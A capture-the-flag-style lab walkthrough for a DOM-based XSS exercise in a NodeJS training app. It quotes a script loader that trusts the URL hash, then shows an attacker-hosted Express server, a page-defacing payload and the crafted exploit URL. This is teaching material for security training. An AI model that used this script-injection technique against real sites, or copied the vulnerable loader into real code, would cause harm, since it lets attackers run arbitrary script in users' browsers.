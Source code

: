 # NodeJS - XSS-DOM-2

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine. After installation, we go to the folder of the lab we want to practice. "i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](../../.gitbook/assets/java/XSS-DOM-2/4.png)

Inspecting the source code of the application.

![](../../.gitbook/assets/java/XSS-DOM-2/5.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](../../.gitbook/assets/java/XSS-DOM-2/1.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```javascript
const express = require("express");
const app = express();
const path = require("path");

app.get("/static/js/welcome.js", function (req, res) {
  res.sendFile("welcome.js", {
    root: path.join(__dirname + "/static/js/"),
  });
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to > evil\_server.js and run the commands below to install some dependencies. Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```
$ npm install express
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!!!";
```

We are ready to start our server:

```
$ node evil_server.js
```

![](../../.gitbook/assets/java/XSS-DOM-2/2.png)

Now we can serve our malicious js file to the application

```
http://localhost:5000/#xxxxhttp://localhost:1337
```

![](../../.gitbook/assets/java/XSS-DOM-2/3.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}
